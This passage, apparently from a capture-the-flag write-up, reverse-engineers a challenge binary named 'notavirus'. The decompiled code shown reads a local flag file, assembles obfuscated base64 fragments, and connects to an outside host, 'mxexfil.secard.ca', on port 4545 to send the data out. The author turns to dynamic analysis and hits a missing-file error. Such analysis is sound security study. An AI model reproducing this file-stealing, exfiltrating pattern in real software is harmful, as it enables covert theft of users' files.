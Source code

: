 ```c
  v4 = stpcpy(&s[v3], src);
  v5 = stpcpy(v4, aI4gr1w);
  strcpy(v5, aBbnuj29x);
  sub_28B0(s);
  v6 = strlen(aErqure);
  v7 = stpcpy(&aErqure[v6], aEvatobg);
  strcpy(v7, aGbzgrkg);
  sub_2980(aErqure);
  sub_2A40(s, aErqure, barray_out);
  v8 = strlen(aTrrdn0);
  v9 = stpcpy(&aTrrdn0[v8], aJxig9);
  v10 = stpcpy(v9, a0iocl);
  strcpy(v10, aRhqhka);
  sub_2A40(aTrrdn0, aErqure, barray_out_2);
  sub_28B0(barray_out_2);
  if ( sub_27C0() )
  {
    puts("Failed to read the flag.");
    exit(1);
  }
  sub_3720("mxexfil.secard.ca", "4545", 0, 2, 0LL, &ptr);
  sub_39B0(ptr, 2, barray_out, barray_out_2);
```

Looking at the string constants referenced by the functions, they look like base64 chunks, but seem to out of order in the binary itself.

```
.data:000000000000A388 ; char aBbnuj29x[]
.data:000000000000A388 aBbnuj29x       db 'bBNuJ29x',0         ; DATA XREF: main+4E↑o
.data:000000000000A391 ; char aI4gr1w[]
.data:000000000000A391 aI4gr1w         db 'I4GR1w',0           ; DATA XREF: main+3F↑o
.data:000000000000A398 ; char src[]
.data:000000000000A398 src             db 'RTwFA',0            ; DATA XREF: main+2E↑o
.data:000000000000A39E                 align 20h
.data:000000000000A3A0 ; char s[]
.data:000000000000A3A0 s               db 'a2GeN',0    
```


The `sub_28B0`, `sub_2980` and related functions doing the string mutations seem pretty optimized and complex on first glance, in the interest of a first blood I opted to switch to dynamic analysis and dump the values of the two output arrays after they executed.

```
$ ./notavirus
Error: Could not open /home/user/Documents/flag.txt.
Failed to read the flag.
$ echo $?
1
```

However, when trying to run the binary, we seem to hit the condition in the above if statement.
